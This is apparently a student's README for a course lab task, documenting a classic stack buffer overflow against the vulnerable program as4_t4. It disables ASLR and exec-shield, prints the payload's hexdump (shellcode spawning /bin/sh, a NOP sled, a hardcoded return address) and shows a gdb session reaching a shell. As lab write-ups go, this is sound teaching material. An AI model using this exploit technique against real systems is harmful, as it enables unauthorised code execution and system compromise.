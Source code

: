 # Documentation on task 4
-------------------------
## Preparation
To make sure all security measurements are turned off, run the following:

    $ sudo -i
    # echo 0 > /proc/sys/kernel/randomize_va_space
    # echo 0 > /proc/sys/kernel/exec-shield   

## How to create and run the exploit
This creates a file `exploit`, with a crafted string to run `/bin/sh` using the vulnerable `as4_t4`

    $ perl exploit.pl

It should look like this (check with `hexdump -C exploit`):

    00000000  31 c9 f7 e1 51 68 2f 2f  73 68 68 2f 62 69 6e 89  |1...Qh//shh/bin.|
    00000010  e3 b0 0b cd 80 90 90 90  90 90 90 90 90 90 90 90  |................|
    00000020  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
    *
    00000060  90 90 90 90 90 90 90 90  90 90 90 90 30 f6 ff bf  |............0...|
    00000070

You can see it working by entering:

    $ gdb ./as4_t4
    (gdb) run `cat exploit`
    Starting program: /home/oscourse/task-4/as4_t4 `cat exploit`
    process 2381 is executing new program: /bin/dash
    $ ls
    as4_t4	as4_t4.c  exploit  exploit.pl
 
## How we crafted the exploit
We figured out that the return address was set after 108 chars of input (which means 12 characters after `buf`, which has a length of 96 characters). At this place we wanted to insert the location for the given buffer, so the program would run shell code from our own buffer. We found that buffer address by recompiling the `as4_t4.c` (with buffer length now set to 96) so we could run it in `gdb` and set some breakpoint on a certain line (we used as4_t4.c:8, just after the overflow). At the break we could use the command `p/x &buf` to see the buffer's location and could confirm by repeating this procedure it wouldn't change over time. The location was therefore `0xbffff630` (see last 4 bytes of the hexdump).
 
We've used [this shellcode](http://www.shell-storm.org/shellcode/files/shellcode-517.php) to spawn `/bin/sh`. This is set at the beginning of the buffer (see lines 00-10). The middle part is stuffing with NOP (lines 10-60) till we are at 108 bytes and add the aforementioned return address.
